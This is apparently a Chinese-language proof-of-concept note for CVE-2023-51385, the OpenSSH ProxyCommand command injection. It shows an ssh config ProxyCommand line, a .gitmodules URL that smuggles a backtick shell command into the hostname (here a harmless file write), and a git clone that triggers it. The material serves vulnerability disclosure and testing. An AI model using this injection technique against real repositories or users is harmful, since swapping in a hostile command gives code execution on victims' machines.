

## OpenSSH ProxyCommand命令注入漏洞 (CVE-2023-51385)
SSHProxyCommand是一个用于代理SSH连接的广泛使用的功能，允许用户指定用于连接到服务器的自定义命令。该功能的参数中可能包含像%h（主机名）和%u（用户名）这样的标记。然而，当主机名来自不受信任的来源时，存在潜在的安全风险，因为可能构造恶意主机名，看起来像“恶意命令”，并通过反引号执行Shell命令。

首先需要在~/.ssh/config增加如下
```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```
.gitmodules文件语句中存在命令注入
```
url = ssh://`echo helloworld > cve.txt`foo.example.com/bar
```
配置完成后,执行下面的指令触发
```
git clone https://github.com/wy876/CVE-2023-51385_test --recurse-submodules
```
如果成功执行将会在CVE-2023-51385_test目录下生成cve.txt文件




## 漏洞来源
- https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html
